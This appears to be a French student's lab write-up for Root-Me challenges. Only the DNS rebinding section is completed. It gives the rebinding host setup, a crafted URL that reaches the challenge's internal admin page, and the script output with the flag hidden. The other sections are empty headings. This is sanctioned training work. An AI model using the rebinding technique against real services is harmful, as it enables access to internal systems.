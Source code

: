 # TP6 : Un peu de root-me

## Sommaire

- [TP6 : Un peu de root-me](#tp6--un-peu-de-root-me)
  - [Sommaire](#sommaire)
  - [I. DNS Rebinding](#i-dns-rebinding)
  - [II. Netfilter erreurs courantes](#ii-netfilter-erreurs-courantes)
  - [III. ARP Spoofing Ecoute active](#iii-arp-spoofing-ecoute-active)
  - [IV. Bonus : Trafic Global System for Mobile communications](#iv-bonus--trafic-global-system-for-mobile-communications)

## I. DNS Rebinding

🌞 **Write-up de l'épreuve**

On utilise [ce site](https://lock.cmpxchg8b.com/rebinder.html) pour mettre en ligne un serveur DNS avec les paramètres :

- A : 127.0.0.1
- B : 8.8.8.8

On obtient l'url suivante : `7f000001.08080808.rbndr.us`.

En effectuant une requête sur le site du challenge ou trouve que l'url pour faire une requête est : `http://challenge01.root-me.org:54022/grab?url=7f000001.08080808.rbndr.us:54022/admin`.

Puis [ce script](./Scripts/netfilter.py) va envoyer des requêtes en boucles jusqu'à obtenir le code source de la page admin :

```bash
$ python3 netfilter.py           
b'\n        <html>\n            <head>\n                <title>Admin page</title>\n                <link rel="stylesheet" href="/static/bootstrap.min.css">\n            </head>\n            <body style="background:pink">\n                <br/>\n                <h1 class="d-flex justify-content-center">Well done!</h1>\n                <h3 class="d-flex justify-content-center">Have a cookie. Admins love cookies.</h1>\n                <h6 class="d-flex justify-content-center">Flag: [coucou toi le flag est caché]\n</h6>\n                <div class="d-flex justify-content-center">\n                    <img src="/static/cookie.png"/>\n                </div>\n            </body>\n        </html>\n    '
```

🌞 **Proposer une version du code qui n'est pas vulnérable**

## II. Netfilter erreurs courantes

🌞 **Write-up de l'épreuve**

🌞 **Proposer un jeu de règles firewall**

## III. ARP Spoofing Ecoute active

🌞 **Write-up de l'épreuve**

🌞 **Proposer une configuration pour empêcher votre attaque**

## IV. Bonus : Trafic Global System for Mobile communications

⭐ **BONUS : Write-up de l'épreuve**
